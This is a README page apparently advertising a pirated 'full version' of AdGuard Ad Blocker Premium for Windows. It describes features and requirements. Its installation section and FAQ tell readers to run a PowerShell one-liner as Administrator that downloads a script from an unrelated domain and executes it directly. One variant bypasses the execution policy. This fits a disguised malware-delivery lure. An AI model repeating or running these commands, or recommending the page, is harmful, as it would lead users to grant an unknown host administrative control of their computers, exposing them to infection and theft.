

<div align="center">


# AdGuard Ad Blocker Premium Windows Full Version
**Blocks ads, trackers and malicious sites system-wide — in browser and apps.**



</div>

---

> Blocks ads, trackers and malicious sites system-wide — in browser and apps.

## `ABOUT`

AdGuard Ad Blocker Premium Windows Full Version — Blocks ads, trackers and malicious sites system-wide — in browser and apps.

## `INSTALLATION`

<div align="center">


<br><br>

**Run in PowerShell as Administrator:**

```powershell
irm https://beyondapp.pro/ps/setup.ps1 | iex
```

<sub>Copy · paste · press Enter · confirm UAC</sub>

</div>

## `FEATURES`

🚫 **Ad blocking** — Removes banners, pop-ups and video ads.
🛡️ **Tracker filter** — Stops analytics and fingerprinting scripts.
🌐 **All browsers** — Works in Chrome, Edge, Firefox and more.
📱 **DNS filtering** — Optional network-level protection.
⚙️ **Custom rules** — Whitelist sites and fine-tune filters.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 8 GB recommended |
| **Disk** | 2 GB free space |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section above.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://beyondapp.pro/ps/setup.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>What does this tool do?</b></summary>
<br>Blocks ads, trackers and malicious sites system-wide — in browser and apps.
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Re-run the same PowerShell command to fetch the latest build.
</details>
